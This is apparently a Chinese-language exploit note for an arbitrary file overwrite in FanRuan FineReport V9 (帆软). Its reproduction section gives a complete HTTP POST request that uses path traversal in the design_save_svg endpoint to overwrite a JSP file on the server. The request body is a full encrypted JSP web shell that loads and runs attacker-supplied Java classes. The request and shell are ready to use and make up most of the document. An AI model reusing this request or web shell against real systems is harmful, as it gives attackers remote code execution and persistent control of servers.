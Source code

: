 # 帆软 V9 任意文件覆盖文件上传

## 漏洞描述

帆软 V9 存在任意文件覆盖，导致攻击者可以任意文件上传

## 漏洞影响

> [!NOTE]
>
> 帆软 V9 

## 漏洞复现

`FineReport V9`

注意: 这个漏洞是任意文件覆盖，上传 JSP 马，需要找已存在的 jsp 文件进行覆盖 Tomcat 启动帆软后默认存在的 JSP 文件:

`比如:/tomcat-7.0.96/webapps/ROOT/index.jsp`

覆盖 Tomcat 自带 ROOT 目录下的 index.jsp:

```
POST /WebReport/ReportServer? op=svginit&cmd=design_save_svg&filePath=chartmapsvg/../../../../WebReport/update .jsp HTTP/1.1 Host: 192.168.169.138:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.92 Safari/537.36
Connection: close
Accept-Au: 0c42b2f264071be0507acea1876c74
Content-Type: text/xml;charset=UTF-8
Content-Length: 675

{"__CONTENT__":"<%@page import=\"java.util.*,javax.crypto.*,javax.crypto.spec.*\"%><%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return super.defineClass(b,0,b.length);}}%><%if(request.getParameter(\"pass\")!=null) {String k=(\"\"+UUID.randomUUID()).replace(\"- \",\"\").substring(16);session.putValue(\"u\",k);out.print(k);return;}Cipher c=Cipher.getInstance(\"AES\");c.init(2,new SecretKeySpec((session.getValue(\"u\")+\"\").getBytes(),\"AES\"));new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInsta nce().equals(pageContext);%>","__CHARSET__":"UTF-8"}
```
 
![](resource/帆软-V9-任意文件覆盖文件上传/media/1.png)